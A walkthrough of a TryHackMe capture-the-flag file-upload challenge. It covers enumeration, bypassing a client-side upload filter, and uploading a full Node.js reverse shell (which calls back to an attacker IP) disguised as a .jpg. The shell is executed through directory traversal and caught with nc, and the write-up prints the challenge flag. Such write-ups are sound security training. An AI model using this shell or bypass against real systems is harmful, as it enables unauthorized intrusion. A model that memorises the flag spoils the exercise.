 # Task 11 Challenge - Write-up
A very cool and 1337-like CTF file-upload web vulnerability. Take note that the attack machine for TryHackMe was used to complete this challenge.

## The task
It's challenge time!

Head over to jewel.uploadvulns.thm.

Take what you've learned in this room and use it to get a shell on this machine. As per usual, your flag is in /var/www/. Bear in mind that this challenge will be an accumulation of everything you've learnt so far, so there may be multiple filters to bypass. The attached wordlist might help. Also remember that not all webservers have a PHP backend...

## The Solution
### Enumeration
Visiting the website `jewel.uploadvulns.thm`, one can easily infer that the website accepts `jpg/jpeg` images, functionally for jewels, to showcase through the website. Somehow, we need to exploit this file upload vulnerability.

In CTFs like this one, it is imperative to gather as much information as possible on the target. As we were first introduced in the room to enumerate via `gobuster`, we will do exactly that.
```console
root@ip-10-10-241-182:~# gobuster dir -u jewel.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://jewel.uploadvulns.thm
[+] Threads:        64
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/02/09 20:58:12 Starting gobuster
===============================================================
/content (Status: 301)
/modules (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/Content (Status: 301)
/Assets (Status: 301)
/Modules (Status: 301)
/Admin (Status: 200)
Progress: 9029 / 220561 (4.09%)
```
Looking at the admin page, we see that we are able to execute code through it by choosing files in the `/modules` directory. From this, one can recognize that this is a potential directory-traversal vulnerability. 

Looking at the page source is another method of enumeration. The following lines are interesting. 
```html
    		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	</head>
	<body>
		<div id="one" class="background"></div>
		<div id="two" class="background" style="display:none;"></div>
```
`<script src="assets/js/upload.js"></script>` indicate some sort of script for filtering file-uploads. By clicking on this script, we are met with the following lines of code.
```js
$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){
			//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "Ã¿ÃÃ¿"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}
const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
```
In addition, one can find a reference to the background image of the website of the form `/content/XXX.jpg`. It is reasonable to think that the images are uploaded are stored there.

Great! It seems like the JavaScript code filters by means of (1) File Extension, (2) Magic Number, and (3) File size. Since I am able to access this filtering, the script is a client-side filter which can be removed through `Burp Suite` via interception of responses. We do exactly this.


Interesting, the header `X-Powered-By: Express` suggests that the server uses `Node.js` for its back-end programming language. This allows us to search online for a reverse shell code for `Node.js`. The reverse shell code used is from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.241.182", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
### Attack
Notice that I replaced the port field and IP-field appropriate to the machine who is going to be listening. In my case, it was the AttackBox machine.

Now that the client-side filter is removed, we can try to upload our Node.js reverse shell. One can quickly see that the file is not accepted suggesting that there are server-side filters in place. Editing our reverse shell to have the name `reverse-shell.jpg` and uploading it however leads to an acceptance. Awesome!

Remember the admin page? Well, we can leverage the directory-traversal vulnerability to get it to execute `reverse-shell.jpg`. We set-up a listener so:
```console
root@ip-10-10-241-182:~# nc -lvnp 4444
```
By typing in the field of the admin page with `../content/ALX.jpg`, we get a connection!!! A reverse-shell was created! Finally, `cat /var/www/flag.txt` on our attacking machine who received the reverse shell gives us the flag `THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`.




